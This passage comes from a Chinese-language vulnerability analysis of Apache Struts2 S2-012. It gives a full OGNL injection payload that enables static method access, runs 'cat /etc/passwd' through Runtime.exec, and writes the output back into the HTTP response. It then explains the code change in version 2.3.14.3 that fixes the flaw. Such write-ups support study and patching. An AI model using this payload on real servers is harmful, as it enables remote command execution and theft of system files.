 <img src="pic/struts2_s2-012_9.png">

如果要使用`Runtime#exec()`方法来执行命令也可以，不过要添加`#_memberAccess.allowStaticMethodAccess=true`。前面使用`ProcessBuilder#start()`，由于不需要调用静态方法，所以无需先将`SecurityMemberAccess`的`allowStaticMethodAccess`改为`true`。
```
%{#_memberAccess.allowStaticMethodAccess=true,
#a=(@java.lang.Runtime@getRuntime().exec(new java.lang.String[]{"cat","/etc/passwd"})),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()}
```

<img src="pic/struts2_s2-012_8.png">

## 漏洞修复

通过比对代码，发现在`2.3.14.3`版本的`OgnlTextParser.java#evaluate()`方法里，将位置索引值`pos`的初始化移到了`for`循环之前。这样修改，使得第一次OGNL表达式计算后，起始位置`pos`的值会更新，而不会重新置`0`，从而避免了二次计算OGNL表达式。<br>
